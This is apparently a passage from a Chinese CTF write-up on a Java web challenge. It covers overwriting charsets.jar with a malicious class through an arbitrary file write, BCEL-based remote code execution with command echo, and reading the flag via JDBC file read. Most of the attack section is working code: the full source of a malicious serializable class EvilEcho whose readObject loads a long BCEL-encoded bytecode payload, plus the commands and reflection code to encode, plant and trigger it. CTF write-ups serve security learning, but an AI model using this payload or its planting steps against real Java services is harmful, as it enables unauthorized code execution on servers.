

因为只要保留ExtendedCharsets.class即可

还有你要恶意调用的类名

成功覆盖了原来的jar包



但是读取是错误的



然后我发现可能是我用的是window上面的charsets.jar编译的原因，然后我把docker环境的charsets.jar下载下来

保留ExtendedCharsets.class和恶意调用类重新编译

上传覆盖即可

然后accept接受那个参数就能调用恶意类了



## 2、becl

题目不出网如何回显？还是根据镜像得知`java`版本是小于`JDK8u251`的存在`BCEL`的利用方式，可通过这样来实现回显`RCE`

但是这个是需要有jre/classes的目录存在的

web-一写一个不吱声，就出现这样的情况，所以就顺带记录一下

恶意类EvilEcho.java

```
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Base64;

public class EvilEcho implements Serializable {
    public static void main(String[] args) {
        try {
            Class<?> evilClass = Class.forName("EvilEcho");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
            //deserialize(btout.toByteArray());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    private void readObject(ObjectInputStream ois) throws Exception {
        String code = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$5bW$TW$U$fe$8e$q$99a$YD$C$I$f1R$c1k$40M$c4$bb$40$ad$IX$ac$B$adA$v$a2m$87$e1$A$D$93$9983$B$b4$f7$7bko$f6fk$ed$cd$da$d6v$f5$c9$97$e8j$97$ae$3e$f7$a1$7d$e9k$9f$fa$d4$be$f4$l$d4$ee$93I4$R$ace$z$f69g_$ce$de$fb$db$7b$9f$cc$cf$ff$fcp$D$c0V$7c$a7$a0$i$87$U$3c$8c$c3$82$qe$M$u8$82$a32$G$r$3c$a2$40$c2$90$84c$K$86q$5c$c6$J$Z$8f$caxL$c6$e324$n$h$91$a1$cb$Y$95$c0$85$c6$98$8cq$Z$T$K$ML$w$a8$c1$94$MS$ac$v$Z$96$M$5bFZ8$3b$v$c3$91$e0$w$f0$90$RdZ$c1$Mf$V4$e2$94$8c$d3b$7dB$90$te$3c$r$e3i$J$cf$uh$c1$b3$S$9ec$Iu$Y$96$e1$edf$u$8b6$le$It$d9$a3$9c$a1$waX$bc$3f$93$g$e1$ce$806b$S$t$9c$b0u$cd$3c$aa9$868$e7$99$Bo$c2p$ZV$tlg$3c$ceg$b5T$da$e4q$cdMs$dd$9b$9c$e1$da4w$e2$7b$bbz$S$3d$fa$84$dd$ce$mw$e8f$de$d9$82$e9M$M$d5$89ImZ$8b$9b$9a5$k$ef25$d7m$X$82V$86$rE$C$87$8f$99t$5d$bc$8f$7b$T$f6hNc$b3$88$e6$b6$c6$c1$91IR$c8I$b6$I$b2U$90m$82l$Xd$87$m$3b$F$d9Uj$97$f4$i$c3$g$t$bb$b2$e9V$8a$a6fx$3eYpZsZ$v$a4$ba$oa$cf$ac$ce$d3$9ea$5b$q$afLz$9a$3e$d5$a7$a5s$88Py$r$3cO$c5$a5$eaI$e8$s$a0$Z$94$a4$9dqt$be$cf$Q$80U$W$e0$88$89$ebTlDL$c2$L$w$5e$c4K$w$5e$c6$x$M$j$Ee$ccM$L$f7c$8e$96$e23$b63$V$9b$e1$p1$dd$b6$3c$3e$eb$c5$i$7e2$c3$5d$_v$d8_$bb$7cv$afm$8er$ea$81WU$bc$863$M$b5$e3$dc$cbktz$94$ccH$c6$e3T$a9$aa$3b$QW$f1$3a$de$60Xt$t$9a$94$85$8a7$f1$W$c3$9e$ff$hO$92$3b$d3$e6$bcN$xr$b1$b8i$dbr$J$C$e5vd$M$cb$85$e3$d9$98$eb$db$de$be$a3$a0$5cN$ca$83$8e$e1qG$c5$db$o$d25$a5$G$T$9e$97$8e$f5$S$v$f5$ee$h$f6r$8d0$v$c9$ce$af$ab$8a$b3x$87$ea$ae$a7F$Z$q$db$8dY$94$98$84wU$bc$87$f7U$7c$80s$q$i$dc$df$af$e2C$7cD$9d$T$d7I$z$3ebXqw$82$8e$hu$V$e7$f11$f1$E$y$9eiQ$x$e7$5cd$3c$c3$8c$tu$cd$b2D$v$$$a8$f8$E$9f$aa$f8$M$9fK$f8B$c5E$7c$v$K$7e$89n8$de$a9$e2$x$7c$ad$e2$h$e1$w8ff$c4$c5A$dd$b4$zJ$baf$9eVSq$Z$df2$ac$bc$f7$a014$dcmzJ$a0$Y$98p$I$ljI$3d$e38$dc$f2$K$e7$dahs$e2N$zj$f4$3a$C4$dfk$b9$ceI$d8$3e$b8$91$S$f5$o$91$b0$99W$40$c51i$93$e3PA$a3s$c7n$ce$8d$ed$7eA$LY$ec$99$c7fx$8eM$f3$7f$bd$o$n$c3$9a$b6$a7$I$ec$5d$d1$b9O$c9$f0$5cV$f3$7c$PN5$c5$d4$cduSs$f8h$n$b6J$97$7b$9d$ba$ce$5d$d7$f0$9f$c8$e81$f1$ae$W$f7$e0$v$d7$e3$v$7f$y$O9v$9a$3b$de$v$86$b5$f7$c0$e1$d6$8bT$e1$d9G$d2d$d4$a5$89$B$v$ad$d6$z$rYL$a7fX$E$f0$d2$e2$8b$bb$s4$t$vf$c4$d2y$7b$f31R$Ue$f5$xQ3$b7$92$ed$85$ce$ce$b1$Og$y$cfH$VF$b8p$a8$x1$cb$b3$c90$c0g9$cdM4$3a$cf$bbZlA$Q$I$b4J$5d$e5$99$M$L$c9$d5$7e$x$9d$f1$c8$92k$84Z$7d$c1$9da$c7$8b$Ed$de$Q$9dW$m$d0W3$$$ef$e6$a6$91$S$_$J$c3$ba$bbc$5d$3c$c2$o$J$8b$fa$9d$8aJQ$e4$k$fa$BG$d3$v$e7$c6hsiV$FQ$8f$c9S4K$edh$c2$G$fa$5d$W$7f$L$c0$c43O4N$a78$ad$8c$d6$60$cbU$b0$x9$f1$s$a2$a1$i3$84V$a2$aa$af$80$cd$d8B$abL$l$Uy$e3$F$df$d3$95$V$A$d3$afaA$We$e1$40$W$c1$D$z$e1P$d9uHY$c8$89$f5$8cv$e5Y$u$7dy$85$K_A$z$u$b4$84$x$f3$db$fe$f5$h$f2$bam$81$8d$b7$b6$c1$bc$ddB$b2$LW$f9$aa$8b$daByn$b5$e0$86$D$c4$j$w$L$d7$q$85H$8aH$UDm$q$e4$d3H$a0p$93$i$91$oAR$z$t$d5$3aRU$7eBM$5by$e8$3aQ$r$bc$f8$g$ea$b3h$IG$b2Xr$k$e1$88$ot$oJ$m$bc4y$ZU$e2$b8$yw$5cN4$Y$vOF$e4$y$ee$L$af$u$f6$i$91$fd$cb$7fD$e3$d054E$94$yVf$b1$ea$wV$87$d7d$b16$8bu$c2$e9$a0o$Z$cdg$S$91$f3$e1$e5$f9$cds$f8$97Q$7e$a0$r$8b$f5$83WD$R$d8$Q$3bN$lJe$b9$S9XF$b4$9c$ca$a3$a0$9e$ca$d0$E$f1$9aWb$t$W$a2$LU$e8$c7$o$M$a1$g6$c28C_hgQ$8bs$a8$c3$r$y$G$e5$8b$hh$c0$_$88$e07$y$c1$eft$d7$lX$8e$3f$b1$C$7f$a3$915$a3$89ub$r$h$c2$g$f2$b8$8a$9d$c0j6$82$b5$b9v8M$7eT$d6$87m$d8N$a7z$b6$X$3b$c8$t$p$8b$9d$d8$856j$a0$$$b6$Y$ed$c4$xC$3f$ab$40$H$f1$C$Y$a2$f0$ef$a7$5d$90$e2$f9$L$bbI$g$a2$a8$7e$c5$D$b4$93$u$a6$y$f6$90T$a6$c8$$$a2$T$7b$v$af$h$b8$40ytC$n$efA$f4$60$ly$7b$90$fe$b7$pp$93$C$ae$90$d0$xa$bf$84$87$K$d4$df$f8$fb$D$S$S$40$c5MB$89$60$93$d0$X$a4$I$fbs$ed$7d$f0_g$f9j$k$Y$L$A$A";
        //new ClassLoader().loadClass(code).newInstance();
        ClassLoader classLoader = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();

        // 获取 loadClass 方法
        Method loadClassMethod = classLoader.getClass().getMethod("loadClass", String.class);

        // 调用 loadClass 方法加载类
        Class<?> loadedClass = (Class<?>) loadClassMethod.invoke(classLoader, code);
        loadedClass.newInstance();
    }
}
```

编译好之后，

```
cat EvilEcho.class |base64 -w0
```

把base64编码写在exp的payload位置，同时改一下文件位置，改成下%JAVA\_HOME%jre/classes/



看到生成后再利用反射调用

```
        try {
            Class<?> evilClass = Class.forName("EvilEcho");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
        } catch (Exception e) {
            e.printStackTrace();
        }
```



即可执行命令，并且获得回显

## 简单粗暴

直接利用jdbc文件读取的方式读flag即可



## 总结

aj链子带来的任意写文件还是很有意思的，感觉踩坑能力又变强力！
